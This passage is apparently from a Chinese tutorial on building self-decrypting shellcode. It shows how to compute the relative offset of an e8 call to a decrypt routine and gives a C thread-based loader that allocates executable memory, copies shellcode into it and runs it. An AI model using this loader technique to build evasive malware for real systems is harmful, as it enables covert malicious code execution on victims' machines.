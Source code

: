 简而言之就是对于`e8`这样的操作码，当在CPU是64位模式下的时候，操作数会被强制为64位的，由于我们现在是运行在32位的模式下，这点我们先不关注；`e8`后应该跟上一个**32位的相对偏移**，通过当前下一条指令的地址加上这个偏移，才是CPU在解析e8这条指令的时候，该跳转的函数地址。

#### 偏移计算方式

那么我们可以在调用shellcode的代码处下个断点，通过在反汇编里分别查看decrypt函数以及`e8 call`下一条指令的地址，进而算出这里我们需要的相对偏移，也就是`decrypt函数的地址-e8下一条指令的地址`：

![image.png](assets/1704791749-5250274f875870de81a21f4a55e9aae6.png)

![image.png](assets/1704791749-0b42a6ef6c647967466f345fc78a087e.png)

![image.png](assets/1704791749-acbd6fcb51b28a134eeaae6b144342be.png)  
最后将算出的四字节偏移填充到`e8`后面就好了，比如我这里按照Windows的小端存储方式，最后的结果就应该是`e8 2b 10 06 00`：

![image.png](assets/1704791749-a005fc4eb62693ef41aba80bf34ea4df.png)  
至此，我们完成了自己调用解密函数，对自己进行解密的完整代码编写。

### 恶意代码加载方式

#### 创建线程加载

动态涉及到了shellcode的加载方式。这里我选择使用创建线程的方式加载。  
1、创建 ThreadProc 函数

```php
DWORD WINAPI ThreadProc(LPVOID lpParameter)
{
    //申请内存
    if ((p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL)
    {
        return 1;
    }
    //复制shellcode
    if (!(memcpy(p, shellcode, sizeof(shellcode))))
    {
        return 1;
    }

    //函数指针赋值
    CODE code = (CODE)p;
    //调用
    code();
    return 0;
}
```
